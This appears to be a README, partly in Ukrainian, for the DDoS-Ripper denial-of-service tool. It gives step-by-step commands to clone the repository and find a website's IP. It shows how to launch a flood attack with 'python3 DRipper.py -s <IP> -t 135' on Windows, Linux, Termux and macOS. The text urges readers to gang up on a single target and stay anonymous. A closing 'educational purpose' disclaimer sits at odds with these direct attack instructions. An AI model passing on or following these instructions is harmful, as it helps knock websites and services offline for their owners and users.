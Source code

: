 # DDoS-Ripper

Інструкція як використовувати DDoS-Ripper для DDoS атаки

Необхідно мати встановленим:
> python3 (Скачати можна на сайті https://www.python.org/downloads/ АБО в MICROSOFT STORE) 

Склонуйте цей репозиторій до себе на ПК бажано в папку `C:\Users\<YOUR USER NAME>`
(Для тих хто не має GIT BASH склонувати проект можна скачавши архів з ним. Нажміть на зелену кнопку "CODE" і виберівть "Download ZIP", розархівувати)

1. Після встановлення Python3 і клонування проекту, нажимаємо `WIN + R` > прописуємо `cmd` . Повинна появитись командна строка. 
2. Прописуємо шлях до нашої папки командою "`cd <назва папки>`". По стандарту початкова папка командної строки є `C:\Users\<YOUR USER NAME>` Тому прописуємо "`cd DDos-Ripper`"
3. Зараз ми знаходимось в папці з проектом і потрібно його запустити командою `python3 DRipper.py`
4. Якщо все зроблено добре запуститься проект і вам потрібно буде вказати командою `python3 DRipper.py -s <IP 0.00.00.00> -t 135` на який сайт здійснювати DDoS атаку. 
5. Дізнатись IP сайту можна легко по сервісам в інтернеті до прикладу https://ipinfo.info/html/ip_checker.php Або подібних. 
6. Також є простий спосіб через командну строку "`pind <SITE URL>`" 
7. Після активації DDoS-Ripper термінал НЕ можна згортати і закривати
8. Групуйтесь із іншими людьми для більш ефективних атак вибираючи одну ціль. 


# What is a DDoS Attack?
A Distributable Denied-of-Service (DDOS) attack server that cuts off targets or surrounding infrastructure in a flood of Internet traffic

DDoS attacks achieve effectiveness using multiple compromised computer systems as a source of attack traffic. Search engines may include computers and other network resources such as IoT devices.
From a higher level, the DDOS attack is like an unexpected traffic jam stuck on a highway, preventing regular traffic from reaching its destination.

## NOTE (Please, make sure you have installed python 3 )

![dddd](https://user-images.githubusercontent.com/49250151/96265488-57e53d00-0f7a-11eb-8936-ce2e9a2c42cd.PNG)

## For Termux
To use the DRipper type the following commands in Termux:

`pkg install git -y`

`pkg install python -y`

`pkg install python3 -y`

`git clone https://github.com/palahsu/DDoS-Ripper.git`

`cd DDoS-Ripper`
`$ ls`

`$ python3 DRipper.py` 

## USGAE
`python3 DRipper.py -s [ip Address] -t 135`

`example: python3 DRipper.py -s 0.00.00.00 -t 135`

## For Debian-based GNU/Linux distributions
To use the application, type in the following commands in GNU/Linux terminal.

`sudo apt install git`
`git clone https://github.com/palahsu/DDoS-Ripper.git`
`cd DDoS-Ripper`
`$ ls`
`$ python3 DRipper.py` OR `python2 DRipper.py`

## For Windows

`git clone https://github.com/palahsu/DDoS-Ripper`

`cd DDoS-Ripper`
` ls`

`python3 DRipper.py` OR `python DRipper.py`

`python3 DRipper.py -s [ip Address] -t 135`

`example: python3 DRipper.py -s 0.00.00.00 -t 135`

## For MacOS

Install Brew and Install dependencies (python 3)

# Note:
If you find any problems than please write on issue github and to our Telegram Group. Don't use for revenge! Make sure your anonymity!
It's made for just testing purpose.
We are not responsible for any abuse or damage caused by this program. Only for Educational Purpose.
Thanks.
 
## Requirments ▶

●🖥Linux OS( Kali 🐉 Ubuntu )

●📱Termux >

●🖥Windows

●🖥MAC



Додатково від автора:
# Modified by @palahsu

For any kind of help, support, payment, suggetion and request ask me on Telegram:

<a href="https://t.me/CyberClans"><img src="https://img.shields.io/badge/Telegram-Group%20Telegram%20Join-blue.svg?logo=telegram"></a>

Or Facebook <a href="https://www.facebook.com/aduri.knox01/"><img src="https://img.shields.io/badge/Facebook-Follow%20on%20Facebook-blue.svg?logo=facebook"></a>

## Follow on:
<p align="left">
<a href="https://github.com/palahsu"><img src="https://img.shields.io/badge/GitHub-Follow%20on%20GitHub-inactive.svg?logo=github"></a>
</p><p align="left">
<a href="https://www.facebook.com/aduri.knox01/"><img src="https://img.shields.io/badge/Facebook-Follow%20on%20Facebook-blue.svg?logo=facebook"></a>
</p><p align="left">
<a href="https://t.me/AD0000000"><img src="https://img.shields.io/badge/Telegram-Contact%20Telegram%20Profile-blue.svg?logo=telegram"></a>
</p><p align="left"> 
 
